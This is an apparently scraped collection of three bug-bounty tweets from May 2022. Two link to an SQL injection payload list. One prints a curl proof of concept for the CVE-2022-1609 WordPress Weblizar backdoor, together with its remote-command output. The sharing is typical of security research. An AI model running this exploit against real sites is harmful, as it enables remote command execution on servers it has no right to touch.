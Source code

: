 
# zapstiko
**https://twitter.com/zapstiko/status/1529694316288872448 _at 2022-05-26 05:22:00_**
<blockquote>
🎯 SQL Injection Payload List
#bugbountytips #bugbounty #sqli https://t.co/BvZVI3pdhv
</blockquote>

* https://github.com/payloadbox/sql-injection-payload-list

<table><tr>
<td>Quotes: <code>0</code></td>
<td>Replies: <code>0</code></td>
<td>Retweets: <code>36</code></td>
<td>Favorites: <code>97</code></td>
</tr></table>

---

# momika233
**https://twitter.com/momika233/status/1529694086193508353 _at 2022-05-26 05:21:05_**
<blockquote>
CVE-2022-1609 WordPress Weblizar  Backdoor

$ curl -s -d 'blowfish=1' -d "blowf=system('id');" 'http://localhost:8888/wp-json/am-member/license'

uid=33(www-data) gid=33(www-data) groups=33(www-data)
#bugbounty #bugbountytips #nday
</blockquote>


<table><tr>
<td>Quotes: <code>5</code></td>
<td>Replies: <code>13</code></td>
<td>Retweets: <code>301</code></td>
<td>Favorites: <code>836</code></td>
</tr></table>

---

# _bughunter
**https://twitter.com/_bughunter/status/1529478208856510464 _at 2022-05-25 15:03:15_**
<blockquote>
SQL Injection Payload List 🔥🔥
Even contains explanation for the attack and types of sql injection, Get started learning ✍️✍️
https://t.co/xPTMYwyjZo
#bugbountytips #bugbountytip #bugbounty
</blockquote>

* https://github.com/payloadbox/sql-injection-payload-list
